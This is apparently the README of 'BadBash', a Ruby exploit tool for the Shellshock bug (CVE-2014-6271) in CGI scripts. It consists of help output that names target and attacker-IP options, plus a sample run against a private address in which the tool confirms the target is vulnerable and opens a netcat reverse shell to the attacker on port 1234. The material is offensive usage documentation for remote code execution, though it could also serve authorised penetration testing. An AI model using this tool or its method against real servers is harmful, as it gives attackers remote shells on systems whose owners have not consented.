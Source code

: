 ================================================================================================

BadBash is a CVE-2014-6271 RCE exploit tool. The basic version only checks for the HTTP CGI site and only provides netcat reverse shell on port 1234.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby BadBash.rb  -h


   ___           _   ___           _     
  / __\ __ _  __| | / __\ __ _ ___| |__  
 /__\/// _` |/ _` |/__\/// _` / __| '_ \ 
/ \/  \ (_| | (_| / \/  \ (_| \__ \ | | |
\_____/\__,_|\__,_\_____/\__,_|___/_| |_|

BadBash - CVE-2014-6271 RCE tool by Andy Yang
Basic version only checks for HTTP site
Basic version only provides netcat reverse shell on port 1234

EXAMPLE USAGE:
     ./BBash.rb  -t 'www.target.com/cgi-folder/cgi.sh' -d '127.0.0.1'
     ./BBash.rb  -t '10.0.0.1/cgi-folder/cgi.sh' -d '127.0.0.1'
    -t, --Target CGI path            Full path of CGI page
    -d, --Destination IP             Your IP address that listen to an inbound connection
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby BadBash.rb -t '172.16.235.140/cgi-bin/Andy.sh' -d '172.16.189.1'

[Info]     Checking if the target is vulnerable........

[Info]     This may take up to 10 seconds........

[Info]     Target is vulnerable!!!

[Info]     Please use NC to listen on port 1234 for reverse shell..........

[Info]     Exploiting for a reverse shell to connect 172.16.189.1:1234 via netcat ..........


